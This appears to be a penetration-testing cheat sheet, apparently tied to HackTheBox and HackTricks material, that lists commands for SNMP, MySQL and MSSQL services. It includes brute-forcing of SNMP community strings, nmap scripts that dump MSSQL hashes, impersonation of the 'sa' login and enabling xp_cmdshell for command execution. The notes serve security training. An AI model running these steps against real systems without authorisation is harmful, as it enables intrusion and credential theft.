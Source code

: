 ##### **[SNMP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)** (TCP 161, 162 - UDP 10161, 10162)
| **Command**                                                           | **Description**                                     |
| --------------------------------------------------------------------- | --------------------------------------------------- |
| `onesixtyone -c /.../Discovery/SNMP/snmp.txt <FQDN/IP>`               | Bruteforcing community strings of the SNMP service. |
| `snmpwalk -v2c -c <found community> <FQDN/IP>`                        | Querying OIDs using snmpwalk.                       |
| `braa <community string>@<FQDN/IP>:.1.*`                              | Bruteforcing SNMP service OIDs.                     |
| `snmpwalk -v 1 -c public <IP> 'NET-SNMP-EXTEND-MIB::nsExtendObjects'` |                                                     |


##### **[MySQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql)** (TCP 3306)
**Attacking SQL Databases**: https://academy.hackthebox.com/module/116/section/1169

> We can use `dbeaver` app to connect any database through GUI

| **Command**                                     | **Description**            |
| ----------------------------------------------- | -------------------------- |
| `mysql -u <user> -p<password> -h <FQDN/IP>`     | Login to the MySQL server. |
| `sudo nmap <IP> -sV -sC -p3306 --script mysql*` | Nmap script scan           |
> [!info] To connect from **Windows** terminal we can use sqlcmd: `C:\htb> sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30`

|**Command**|**Description**|
|---|---|
|`mysql -u <user> -p<password> -h <IP address>`|Connect to the MySQL server. There should **not** be a space between the '-p' flag, and the password.|
|`show databases;`|Show all databases.|
|`use <database>;`|Select one of the existing databases.|
|`show tables;`|Show all available tables in the selected database.|
|`show columns from <table>;`|Show all columns in the selected database.|
|`select * from <table>;`|Show everything in the desired table.|
|`select * from <table> where <column> = "<string>";`|Search for needed `string` in the desired table.|
##### **[MSSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)** (TCP 1433)
**Attacking SQL Databases**: https://academy.hackthebox.com/module/116/section/1169

> We can use `dbeaver` app to connect any database through GUI

| **Command**                                                                                                                                                                                                                                                                                       | **Description**                                            |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------- |
| `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>` | Nmap port scan                                             |
| `impacket-mssqlclient <user>@<FQDN/IP> -windows-auth`                                                                                                                                                                                                                                             | Log in to the MSSQL server using Windows authentication.   |
| `SQL> select name from sys.databases`                                                                                                                                                                                                                                                             | Select databases in mssqlclient                            |
| `SQL> SELECT * FROM fn_my_permissions(NULL, 'SERVER');`                                                                                                                                                                                                                                           | Check user permissions in mssqlclient                      |
| `SQL> SELECT SYSTEM_USER`<br>`SQL> SELECT IS_SRVROLEMEMBER('sysadmin')`                                                                                                                                                                                                                           | Retrieve system user in mssqlclient                        |
| `SQL> EXECUTE AS LOGIN = 'sa'`                                                                                                                                                                                                                                                                    | Execute as user in mssqlclient (if user has permission)    |
| `SQL> EXECUTE sp_configure 'show advanced options', 1`<br>`SQL> RECONFIGURE`<br>`SQL> EXECUTE sp_configure 'xp_cmdshell', 1`<br>`SQL> RECONFIGURE`                                                                                                                                                | Enable xp_cmdshell in mssqlclient (if user has permission) |